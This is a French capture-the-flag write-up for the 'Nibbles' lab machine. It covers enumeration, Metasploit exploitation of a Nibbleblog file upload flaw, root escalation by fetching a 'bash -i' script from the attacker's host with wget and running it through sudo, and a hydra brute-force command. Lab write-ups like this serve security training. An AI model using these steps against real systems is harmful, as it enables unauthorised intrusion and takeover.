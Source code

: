 # Nibbles [Linux] Easy

# — 1.Enumération—

## Nmap

`nmap -sS -A -sC -sV 10.10.10.75`

```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

[http://10.10.10.75/nibbleblog/](http://10.10.10.75/nibbleblog/)

[http://10.10.10.75/nibbleblog/feed.php](http://10.10.10.75/nibbleblog/feed.php)

## Ffuf

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.117/FUZZ

themes                  [Status: 301, Size: 322, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64]
languages               [Status: 301, Size: 325, Words: 20, Lines: 10]
content                 [Status: 301, Size: 323, Words: 20, Lines: 10]
```

## Metasploit :

Dans view-source:[http://10.10.10.75/nibbleblog/admin/boot/rules/98-constants.bit](http://10.10.10.75/nibbleblog/admin/boot/rules/98-constants.bit) On trouve la version de l'application : 4.0.3

Cette version est exploitable avec MetaSploit : [https://www.exploit-db.com/exploits/38489](https://www.exploit-db.com/exploits/38489)

Dans [http://10.10.10.75/nibbleblog/content/private/users.xml](http://10.10.10.75/nibbleblog/content/private/users.xml) on trouve l'username admin

En essayant au hasard le mot de passe est `nibbles`

`use multi/http/nibbleblog_file_upload`

Pour les information à rentrer nous mettons : LHOSTS [Notre IP], RHOST [10.10.10.75], set TARGETURI nibbleblog, set USERNAME admin, set PASSWORD nibbles

`sudo -l` :

```bash
User nibbler may run the following commands on Nibbles:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Le fichier n'existant pas nous allons créé les dossier et créé un fichier nous permettant si exécuter d'être root

On créé le fichier [monitor.sh](http://monitor.sh/) sur notre machine contenant seulement

```bash
bash -i
```

On créé un serveur avec python : `python -m http.server 80`

Sur la machine attaquer : `wget [http://NotreIP/monitor.sh](http://10.10.14.16/monitor.sh)`

Puis on exécute en tant que root le fichier : `sudo ./monitor.sh`

Cela nous créé un shell en tant que root et nous pouvons récupérer le deuxième flag !

# Notes

[http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php) Page de connexion à l'admin panel
On va brute force la page avec hydra :
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password."`

[80][http-post-form] host: 10.10.10.75   login: admin   password: 1234567
[80][http-post-form] host: 10.10.10.75   login: admin   password: princess
[80][http-post-form] host: 10.10.10.75   login: admin   password: 123456

Le problème c'est que nous sommes Blacklists en utilisant ces mot de passes.
